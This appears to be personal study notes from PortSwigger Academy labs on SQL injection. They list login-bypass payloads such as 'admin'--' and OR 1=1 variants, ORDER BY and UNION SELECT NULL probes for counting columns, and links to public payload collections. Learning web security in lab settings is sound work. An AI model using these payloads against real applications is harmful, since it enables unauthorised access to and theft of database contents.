 # burpSuite
aka Notes from PortSwigger Academy

## SQLi

- ```--``` comments out everything after

Payloads that just worked somewhere:
```
'--
admin'--
administrator'--
' OR 1=1 --
'+OR+1=1--
OR 1=1 --
OR+1=1 --
```
So how many collumns do we have? 
```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
'+ORDER+BY+3--

' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
'+UNION+SELECT+NULL,+NULL--
'+UNION+SELECT+NULL,NULL--
```

- [payloads](https://github.com/payloadbox/sql-injection-payload-list#generic-sql-injection-payloads)
- [payloads2](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
